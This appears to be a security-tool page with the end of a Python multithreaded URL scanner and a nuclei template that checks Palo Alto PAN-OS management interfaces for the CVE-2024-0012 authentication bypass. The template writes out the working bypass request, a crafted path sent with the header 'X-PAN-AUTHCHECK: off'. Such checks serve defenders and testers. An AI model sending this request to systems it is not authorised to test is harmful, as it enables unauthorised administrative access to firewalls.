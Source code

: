 ```python
            return

        thread = 10
        if args.thread:
            thread = args.thread
        with concurrent.futures.ThreadPoolExecutor(max_workers=thread) as executor:
            # 使用 executor.map 实现并发调用
            results = list(executor.map(lambda url: session(url, proxies=proxies), urls))
            # 可选：打印结果
            # for result in results:
            #     if result and result.get('isVul'):
            #         print(f"[+] Vulnerability confirmed for {result['url']}")
    else:
        help()

if __name__ == '__main__':
    main()
```

# nuclei
```python
 
id: palo-alto-vpn-CVE-2024-0012-check-wt
 
info:
  name: Palo Alto PAN-OS Authentication Bypass in the Management Web Interface CVE-2024-0012
  author: watchTowr
  severity: critical
  description: An authentication bypass in Palo Alto Networks PAN-OS software enables an unauthenticated attacker with network access to the management web interface to gain PAN-OS administrator privileges to perform administrative actions, tamper with the configuration, or exploit other authenticated privilege escalation vulnerabilities like CVE-2024-9474.
  tags: palo-alto
  metadata:
    max-request: 4
 
http:
  - method: GET
    path:
      - "{{BaseURL}}/php/utils/CmsGetDeviceSoftwareVersion.php/.js.map"
 
    headers:
      X-PAN-AUTHCHECK: off
 
    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        condition: or
        words:
          - "0.0.0"
 
 
      - type: status
        status:
          - 200
 
      - type: word
        part: header
        words:
          - "Expires: 0"
          - "PHPSESSID="
```